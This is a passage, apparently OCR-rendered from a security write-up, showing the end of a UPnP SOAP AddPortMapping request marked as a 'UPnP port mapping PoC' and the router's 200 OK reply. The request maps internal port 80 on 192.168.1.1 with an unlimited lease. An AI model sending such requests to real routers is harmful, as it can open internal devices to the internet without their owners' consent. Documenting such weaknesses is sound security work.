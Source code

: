```
         <NewInternalPort>80</NewInternalPort>
```

```
         <NewInternalClient>192.168.1.1</NewInternalClient>
```

```
         <NewEnabled>1</NewEnabled>
```

```
         <NewPortMappingDescription>UPnP port mapping PoC</NewPortMappingDescription>
```

```
         <NewLeaseDuration>0</NewLeaseDuration>
```

```
      </u:AddPortMapping>
```

```
   </s:Body>
```

```
</s:Envelope>
```

Response:

```
HTTP/1.1 200 OK
```

```
Content-Type: text/xml; charset="utf-8"
```

```
Connection: close
```

```
Content-Length: 298
```

```
​
```

```
<?xml version="1.0"?>
```

```
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body>    <u:AddPortMappingResponse xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
```
